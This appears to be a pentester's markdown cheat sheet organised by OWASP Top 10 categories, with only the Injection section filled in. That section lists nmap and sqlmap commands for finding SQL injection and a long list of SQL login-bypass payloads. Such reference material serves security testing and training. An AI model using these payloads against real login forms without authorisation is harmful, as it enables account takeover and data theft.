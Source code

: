 # [OWASP](#owasp)
  - [Injection](#injection)
  - [Broken Authentication](#broken-authentication)
  - [Sensitive Data Exposure](#sensitive-data-exposure)
  - [XML External Entity](#xml-external-entity)
  - [Broken Access Control](#broken-access-control)
  - [Security Misconfiguration](#security-misconfiguration)
  - [Cross-site Scripting](#cross-site-scripting)
  - [Insecure Deserialization](#insecure-deserialization)
  - [Components with Known Vulnerabilities](#components-with-known-vulnerabilities)
  - [Insufficent Logging & Monitoring](#insufficent-logging-and-monitoring)

## [OWASP Cheat Sheet](https://cheatsheetseries.owasp.org/index.html)
## [Web Application Attacks](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application)
## [Security Idiots](http://www.securityidiots.com/)

## OWASP

### Injection

[SQL INJECTION - PORTSWINGER](https://portswigger.net/web-security/sql-injection)

- Enum using nmap
  >
  > nmap -sV --script=http-sql-injection <target>
  >
- Using jsql
- Using sqlmap with login-page
- Capture the request using burp suite, and save the request in a file.
  >
  > sqlmap -r request.txt
  >
- Crawl a page to find sql-injection.
  >
  > sqlmap -u http://example.com --crawl=1
  >
- Login bypass
  >
  > ‘or 1=1- -
  >
  >‘ or ‘1’=1
  >
  >‘ or ‘1’=1 - -
  >
  >‘–
  >
  >' or '1'='1
  >
  >-'
  >
  >' '
  >
  >'&'
  >
  >'^'
  >
  >'*'
  >
  >' or ''-'
  >
  >' or '' '
  >
  >' or ''&'
  >
  >' or ''^'`
  >
  >`’ or ‘‘*’
  >
  >"-"
  >
  >" "
  >
  >"&"
  >
  >"^"
  >
  >"*"
  >
  >" or ""-"
  >
  >" or "" "
  >
  >" or ""&"
  >
  >" or ""^"
  >
  >" or ""*"
  >
  >or true--
  >
  >" or true--
  >
  >' or true--
  >
  >") or true--
  >
  >') or true--
  >
  >' or 'x'='x
  >
  >') or ('x')=('x
  >
  >')) or (('x'))=(('x
  >
  >" or "x"="x
  >
  >") or ("x")=("x
  >
  >")) or (("x"))=(("x
  >
- known Username
  >
  >admin’ - -
  >
  >admin’) - -
  >
- Using error-bases DB enumeration
  >
  >Add the tick '
  >
  >Enumerate columns
  >
Using order by
  [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html)

### Broken Authentication

### Sensitive Data Exposure

### XML External Entity

### Broken Access Control

### Security Misconfiguration

### Cross-site Scripting

### Insecure Deserialization

### Components with Known Vulnerabilities

### Insufficent Logging & Monitoring
